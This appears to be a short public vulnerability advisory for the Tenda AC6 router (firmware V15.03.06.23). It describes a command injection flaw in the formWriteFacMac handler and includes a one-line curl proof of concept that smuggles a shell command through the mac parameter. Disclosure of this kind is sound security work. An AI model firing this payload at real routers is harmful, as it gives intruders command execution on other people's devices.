

## Tenda AC6 command injection

### Overview

* Vendor: Tenda

* Product: Tenda AC6
* Version: V15.03.06.23_multi

* Manufacturer's address：https://www.tendacn.com/
* Firmware download address ：https://static.tenda.com.cn/tdcweb/download/uploadfile/AC6/AC6V2.0_V15.03.06.23_multi.zip

### Vulnerability details

Tenda AC6 V15.03.06.23 was found to contain a command injection vulnerability in the `formWriteFacMac` function via the `mac` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.




#### PoC

```
curl http://192.168.0.1/goform/WriteFacMac?mac=;ls%20%3E%20/tmp/1.txt;
```


